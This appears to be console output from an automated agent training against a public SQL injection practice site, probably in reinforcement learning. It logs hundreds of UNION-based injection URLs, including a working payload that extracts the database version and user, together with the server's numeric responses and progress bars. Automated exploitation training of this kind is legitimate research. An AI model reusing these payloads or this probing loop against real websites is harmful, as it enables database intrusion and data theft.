Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc n

  0%|          | 743/1000000 [4:17:01<25053:55:27, 90.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 

  0%|          | 744/1000000 [4:17:58<22285:35:54, 80.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 745/1000000 [4:18:00<15761:06:06, 56.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response 

  0%|          | 746/1000000 [4:18:18<12530:12:59, 45.14s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 747/1000000 [4:18:19<8844:27:01, 31.86s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 748/1000000 [4:18:19<6271:43:10, 22.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3

  0%|          | 749/1000000 [4:19:04<8130:30:39, 29.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 750/1000000 [4:19:05<5767:24:46, 20.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 751/1000000 [4:19:06<4112:47:55, 14.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 752/1000000 [4:19:07<2953:45:45, 10.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 753/1000000 [4:19:08<2142:58:25,  7.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 754/1000000 [4:19:09<1575:16:35,  5.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 755/1000000 [4:19:10<1183:47:59,  4.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 756/1000000 [4:19:11<908:33:55,  3.27s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 757/1000000 [4:19:12<715:24:44,  2.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 758/1000000 [4:19:13<595:49:11,  2.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 759/1000000 [4:19:14<499:33:26,  1.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 760/1000000 [4:19:15<426:16:42,  1.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 761/1000000 [4:19:16<372:24:13,  1.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 762/1000000 [4:19:17<343:28:24,  1.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is

  0%|          | 763/1000000 [4:20:09<4623:31:38, 16.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 764/1000000 [4:20:10<3319:00:59, 11.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' an

  0%|          | 765/1000000 [4:20:34<4264:34:25, 15.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 766/1000000 [4:20:35<3059:43:45, 11.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 767/1000000 [4:20:36<2218:45:41,  7.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 768/1000000 [4:20:36<1632:13:19,  5.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 769/1000000 [4:20:37<1222:32:53,  4.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error

  0%|          | 770/1000000 [4:20:56<2436:18:12,  8.78s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 771/1000000 [4:20:57<1779:58:24,  6.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 772/1000000 [4:20:58<1327:02:45,  4.78s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax

  0%|          | 773/1000000 [4:22:00<6096:16:09, 21.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax

  0%|          | 774/1000000 [4:25:00<19232:34:50, 69.29s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 775/1000000 [4:25:01<13539:17:10, 48.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server

  0%|          | 776/1000000 [4:25:19<10942:57:59, 39.43s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 777/1000000 [4:25:20<7739:58:33, 27.89s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 778/1000000 [4:25:21<5498:26:01, 19.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server respo

  0%|          | 779/1000000 [4:27:16<13450:48:07, 48.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 780/1000000 [4:27:17<9491:38:22, 34.20s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. 

  0%|          | 781/1000000 [4:28:30<12780:19:18, 46.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 782/1000000 [4:28:32<9036:05:31, 32.56s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'uni

  0%|          | 783/1000000 [4:28:51<7915:43:18, 28.52s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 784/1000000 [4:28:52<5625:04:39, 20.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 785/1000000 [4:28:53<4012:49:03, 14.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 786/1000000 [4:28:54<2891:15:07, 10.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 787/1000000 [4:28:54<2099:55:34,  7.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc n

  0%|          | 788/1000000 [4:29:31<4547:08:30, 16.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 789/1000000 [4:29:32<3256:30:57, 11.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Synta

  0%|          | 790/1000000 [4:30:01<4690:12:10, 16.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 791/1000000 [4:30:02<3364:15:19, 12.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server r

  0%|          | 792/1000000 [4:31:04<7541:20:29, 27.17s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union

  0%|          | 793/1000000 [4:31:20<6597:44:57, 23.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 794/1000000 [4:31:21<4692:58:08, 16.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 795/1000000 [4:31:22<3359:05:17, 12.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax

  0%|          | 796/1000000 [4:31:59<5430:43:58, 19.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 797/1000000 [4:32:00<3883:18:17, 13.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 798/1000000 [4:32:01<2796:23:58, 10.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 799/1000000 [4:32:03<2107:40:58,  7.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 800/1000000 [4:32:04<1551:46:56,  5.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 801/1000000 [4:32:05<1167:30:38,  4.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 802/1000000 [4:32:10<1220:19:53,  4.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 803/1000000 [4:32:42<3521:08:17, 12.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
